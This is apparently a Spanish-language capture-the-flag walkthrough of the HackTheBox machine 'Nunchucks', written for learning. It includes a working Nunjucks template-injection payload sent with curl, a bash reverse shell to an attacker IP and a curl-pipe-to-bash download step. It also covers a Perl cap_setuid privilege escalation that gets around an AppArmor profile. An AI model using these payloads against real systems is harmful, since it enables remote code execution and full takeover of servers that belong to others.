





## Introducción
El día de hoy veremos la máquina **Nunchucks** de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Server-Side Template Injection (SSTI) en Nunjucks (Node.js)
- AppArmor Profile Bypass (Escalada de Privilegios)

## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.95.252 -oN puertos.txt
```

```
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Identificamos 3 puertos abiertos. Los servicios más relevantes para nuestra explotación son: SSH (22), HTTP (80) y HTTPS (443).

### Puerto 80/443 - HTTP/HTTPS

Al acceder al puerto 80, el servidor nos redirige automáticamente a `https://nunchucks.htb/`. Procedemos a añadir el dominio a nuestro archivo `/etc/hosts`:

```bash
echo "10.129.95.252 nunchucks.htb" | sudo tee -a /etc/hosts
```


La página muestra lo que parece una tienda online. Vemos un botón para registrarnos, pero al intentarlo nos indica que los registros están cerrados:


La enumeración de la web no arroja resultados inmediatos, por lo que procedemos a realizar una búsqueda de subdominios mediante fuerza bruta con `gobuster`:

```bash
gobuster vhost -u https://nunchucks.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -k
```

Identificamos el subdominio `store.nunchucks.htb`, el cual añadimos igualmente a nuestro archivo `/etc/hosts`:

```bash
echo "10.129.95.252 store.nunchucks.htb" | sudo tee -a /etc/hosts
```

# Explotación

### Enumeración de `store.nunchucks.htb`

Al acceder a `https://store.nunchucks.htb`, encontramos una página de "próximamente" con un formulario para suscribirse a la newsletter mediante correo electrónico:



Al enviar un correo de prueba, observamos que la web refleja el valor introducido directamente en el output de la respuesta:


Este comportamiento, donde el input del usuario se renderiza en la respuesta, es un indicador claro de una posible vulnerabilidad de tipo **SSTI (Server-Side Template Injection)**. Verificamos la vulnerabilidad con el payload básico `{{7*7}}`; si la respuesta devuelve `49`, confirma la inyección.

El campo valida el formato de email, por lo que utilizamos **Burp Suite** para modificar la petición y enviar el payload directamente. La inyección funciona correctamente:



### Identificación del Motor de Plantillas

Para determinar el motor de plantillas utilizado e identificar el payload adecuado, inspeccionamos las cabeceras de la respuesta HTTP con `whatweb`:

```bash
whatweb https://store.nunchucks.htb
```



El encabezado `X-Powered-By: Express` confirma que la aplicación corre sobre **Express.js** (Node.js). Express no impone un motor de plantillas concreto, admitiendo múltiples opciones como EJS, Pug, Handlebars o Nunjucks.

El nombre de la propia máquina, *Nunchucks*, apunta directamente a **Nunjucks**, un motor de plantillas para Node.js inspirado en Jinja2. Investigamos payloads de explotación específicos para este engine.

### Explotación de SSTI en Nunjucks

Nunjucks permite acceso a objetos internos de JavaScript si no está correctamente sandboxeado. El siguiente payload accede al objeto `process`, carga el módulo `child_process` y ejecuta comandos del sistema:

```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

Enviamos el payload con `curl` para ejecutar el comando `id`:

```bash
curl https://store.nunchucks.htb/api/submit \
  -d "{\"email\":\"{{range.constructor('return global.process.mainModule.require(\`child_process\`).execSync(\`id\`)')()}}\"}" \
  -kH 'Content-Type: application/json'
```

El comando se ejecuta exitosamente:



### Estableciendo Reverse Shell

Para obtener acceso interactivo al sistema, implementamos el mismo método de descarga y ejecución de payload remoto utilizado en otras máquinas.

**Paso 1:** Creamos un archivo `index.html` con el payload de reverse shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.118/4444 0>&1
```

**Paso 2:** Levantamos un servidor HTTP con Python:

```bash
python3 -m http.server 80
```

**Paso 3:** Nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 4444
```

**Paso 4:** Ejecutamos el comando de descarga en la máquina víctima a través del exploit:

```bash
curl https://store.nunchucks.htb/api/submit \
  -d "{\"email\":\"{{range.constructor('return global.process.mainModule.require(\`child_process\`).execSync(\`curl http://10.10.14.118/index.html | bash\`)')()}}\"}" \
  -kH 'Content-Type: application/json'
```

Obtenemos acceso exitoso al sistema como el usuario `david`:



La flag de usuario se encuentra en `/home/david/user.txt`.

# Escalada de Privilegios

### Enumeración del Sistema

Durante la enumeración del sistema encontramos en `/opt` un script Perl interesante llamado `backup.pl`:

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);

my $tmpdir     = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog {
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive {
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

Al inspeccionar las capacidades del binario de Perl, descubrimos algo crítico:

```bash
getcap /usr/bin/perl
```

```
/usr/bin/perl = cap_setuid+ep
```

La capability `cap_setuid+ep` permite que el intérprete de Perl cambie su UID a 0 (root) sin necesidad del bit SUID. Esto es un vector de escalada de privilegios directo.

### El Obstáculo: Perfil de AppArmor

Al intentar explotar esta capability directamente con una one-liner de Perl para obtener una shell de root, el sistema devuelve `root` en `whoami` pero impide ejecutar `/bin/sh`. Investigamos la causa en `/etc/apparmor.d/usr.bin.perl`:

```
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,
}
```

El perfil de AppArmor prohíbe el acceso a `/root/` y a `/etc/shadow`, y restringe los binarios que Perl puede ejecutar. AppArmor intercepta las llamadas al sistema cuando invocamos el intérprete directamente (`perl script.pl`).

### El Bypass: Invocación vía Shebang

La clave del bypass reside en cómo el kernel y AppArmor gestionan la ejecución según el método de invocación:

- **Ejecución directa:** `perl script.pl` → AppArmor aplica el perfil de `/usr/bin/perl`.
- **Ejecución vía shebang:** `./script.pl` (con `#!/usr/bin/perl`) → En ciertas versiones del kernel, el proceso no se asocia correctamente con el perfil de AppArmor del intérprete, permitiendo evadir las restricciones.

### Explotación Final

Creamos un script malicioso en `/tmp` aprovechando la capability `cap_setuid` y el bypass de AppArmor:

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

Otorgamos permisos de ejecución y lo ejecutamos directamente (no con `perl exploit.pl`):

```bash
chmod +x /tmp/exploit.pl
/tmp/exploit.pl
```

Recibimos una shell con privilegios de root. La flag de root se encuentra en `/root/root.txt`.

¡Ya somos root! 🎉